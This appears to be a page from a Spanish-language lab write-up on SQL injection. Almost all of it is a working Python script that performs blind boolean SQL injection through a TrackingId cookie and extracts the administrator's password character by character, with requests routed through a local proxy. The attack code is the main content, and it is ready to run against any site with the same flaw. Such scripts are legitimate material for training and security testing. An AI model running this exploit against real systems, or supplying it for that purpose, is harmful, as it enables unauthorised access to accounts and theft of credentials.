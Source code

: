 ![Login]({{site.url}}/images/SQLi/sqli-11/resuelto.png)

# Codigo Python

```python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingId': 'dCqiyv8E4BfhhpHL' + sqli_payload_encoded, 'session': 'bdb4dZfXEcfucciq98jCIYBJW4NL7y7M'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if "Welcome" not in r.text:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    print("(+) Retrieving administrator password...")
    sqli_password(url)

if __name__ == "__main__":
    main()
```